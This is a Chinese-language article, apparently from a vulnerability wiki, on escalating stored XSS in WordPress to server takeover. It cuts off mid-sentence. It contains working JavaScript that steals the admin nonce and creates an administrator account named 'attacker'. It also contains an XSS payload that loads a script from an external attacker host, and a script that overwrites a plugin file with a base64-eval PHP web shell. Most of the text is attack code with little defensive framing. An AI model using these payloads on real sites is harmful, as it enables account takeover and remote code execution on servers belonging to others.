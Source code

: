 （从xss到getshell） xss的深层次利用与探讨
=========================================

今天我们的网站上公布了大量的wp的xss，那么这篇文章就是深入探讨如何深入利用xss。

如果师傅们有什么新的思路或者姿势。可以通过邮箱联系我们进行讨论与交流

联系邮箱：ian\@lcx.cc

通过js文件添加wp系统管理员
--------------------------

### 1、创建管理账号

举个例子，攻击者可以在其Web服务器上托管JavaScript文件，例如wpaddadmin
\[.\]
js（在链接中描述）。此JavaScript代码将添加一个WordPress管理员帐户，其用户名为"
attacker"，密码为" attacker"。

    // Send a GET request to the URL '/wordpress/wp-admin/user-new.php', and extract the current 'nonce' value  
    var ajaxRequest = new XMLHttpRequest();  
    var requestURL = "/wordpress/wp-admin/user-new.php";  
    var nonceRegex = /ser" value="([^"]*?)"/g;  
    ajaxRequest.open("GET", requestURL, false);  
    ajaxRequest.send();  
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);  
    var nonce = nonceMatch[1];  

    // Construct a POST query, using the previously extracted 'nonce' value, and create a new user with an arbitrary username / password, as an Administrator  
    var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@site.com&pass1=attacker&pass2=attacker&role=administrator";  
    ajaxRequest = new XMLHttpRequest();  
    ajaxRequest.open("POST", requestURL, true);  
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");  
    ajaxRequest.send(params);

然后，攻击者可以使用以下PoC插入JavaScript。

    “"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://aaa.bbb.ccc.ddd/ wpaddadmin.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;”

### 图1.插入XSS代码以添加管理员帐户

![](/Users/aresx/Documents/VulWiki/.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId24.png)

具有高权限的受害者查看此帖子后，将创建管理员帐户"攻击者"。

### 图2. XSS代码被执行

![](/Users/aresx/Documents/VulWiki/.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId26.png)

### 图3. XSS代码创建的具有管理员权限的"攻击者"帐户

![](/Users/aresx/Documents/VulWiki/.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId28.png)

然后，攻击者可以将现有的php文件修改为Webshel​​l，并使用该Webshel​​l来控制Web服务器。

图4.使用攻击者的帐户添加一个Web Shell

![](/Users/aresx/Documents/VulWiki/.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId29.png)

图5.控制Web服务器

![](/Users/aresx/Documents/VulWiki/.resource/(从xss到getshell)xss的深层次利用与探讨/media/rId30.png)

### 2、恶意命令执行

    // Send a GET request to the URL '/wp-admin/plugin-editor.php?akisment/index.php', and extract the current 'nonce' value
    var ajaxRequest = new XMLHttpRequest();
    var requestURL = "/wp-admin/plugin-editor.php?file=akismet/index.php"
    var nonceRegex = /ce" value="([^"]*?)"/g;
    ajaxRequest.open("GET", requestURL, false);
    ajaxRequest.send();
    var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
    var nonce = nonceMatch[1];

    // Construct a POST query, using the previously extracted 'nonce' value, and update the content of the file 'akismet/index.php' with our tiny web shell
    var params = "_wpnonce="+nonce+"&newcontent=<?php eval(base64_decode($_REQUEST['x']));&action=update&file=akismet/index.php"
    ajaxRequest = new XMLHttpRequest();
    ajaxRequest.open("POST", requestURL, true);
    ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajaxRequest.send(params);

一旦此XSS被管理用户触发，我们应该能够通过向脚本

<http://0-sec.org/wp-content/plugins/akismet/index.php>

发送GET / POST请求来执行任意PHP代码，其中参数" x"等于我们的PHP代码的"
base6
